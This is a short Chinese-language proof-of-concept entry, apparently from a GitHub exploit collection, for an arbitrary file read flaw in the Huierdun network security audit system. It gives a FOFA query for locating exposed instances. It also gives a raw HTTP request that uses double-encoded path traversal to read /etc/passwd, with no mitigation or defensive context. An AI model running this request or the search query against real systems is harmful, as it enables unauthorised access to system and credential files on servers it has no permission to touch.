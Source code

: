 ## 惠尔顿-网络安全审计系统存在任意文件读取漏洞

## fofa
```
app="惠尔顿-网络安全审计系统"
```
![image](https://github.com/wy876/POC/assets/139549762/e66973bc-5f10-487e-a450-8ececd4c198f)

## poc
```
GET /download/..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![image](https://github.com/wy876/POC/assets/139549762/a1659d87-afd3-45d0-8e89-c9f8782da4f8)

